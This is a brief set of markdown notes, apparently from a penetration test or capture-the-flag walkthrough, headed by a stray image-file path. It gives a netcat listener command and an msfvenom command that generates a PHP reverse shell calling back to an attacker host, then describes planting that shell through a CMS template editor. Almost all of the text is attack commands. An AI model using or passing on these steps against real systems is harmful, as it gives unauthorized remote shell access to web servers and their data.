 ### start listener
```
nc -lvp <lport>
```

### create php reverse shell
```
msfvenom -p php/reverse_php lhost=<lhost> lport=<lport> -f raw
Extensions > Templates > Choose a template > Choose php file > insert php reverse shell
```

